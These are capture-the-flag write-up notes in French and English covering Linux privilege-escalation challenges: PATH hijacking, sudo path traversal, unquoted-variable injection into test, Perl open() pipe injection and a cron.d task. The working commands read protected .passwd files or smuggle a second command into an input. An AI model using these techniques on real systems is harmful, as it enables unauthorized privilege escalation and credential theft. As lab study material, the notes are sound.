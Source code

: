 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

```bash 
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

### Unquoted variables

Solution

```
./wrapper "42 -o 1 -eq 1" 
````

Explanation
This condition needs to be passed (line 18):
````
if test $PASS -eq ${1}; then
````

Note that `${1}` is unquoted!
Hence, it will be "split" before being passed to the `test` command.

So, we need:

Something that is an integer to make a valid comparison to $PASS;
A condition that is always true: `1 -eq 1`.
And the condition will be split to become:
````
$PASS -eq 42 -o 1 -eq 1
````

Sources
Split/Glob effect on unquoted variables: https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells#answer-171347;
OR operation for the test command: https://tldp.org/LDP/abs/html/comparison-ops.html#CCOMPARISON1 .


### PERL - Command injection

setuid-wrapper SUID program execute the perl file ch7.pl
so after reading the perl issue article montioned in this challenge .
i found in code only The open() function so i focus on it issues here where the solution appear to me

The Perl documentation tells us that:

   If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.
so i run
````
./setuid-wrapper
#it run python script as SUID permission
| /bin/cat ~/.passwd
````
et voila

thank you .

### Cron

Each minute, everything in cron.d is executed so we simply add a task :
````
echo '#!/bin/sh
> cat .passwd > /tmp/mdp' > cron.d/task1; chmod 4777 cron.d/task1
Télécharger
````
(the \n is important)

wait one minute and
````
cat /tmp/mdp gives us the password : xx
````
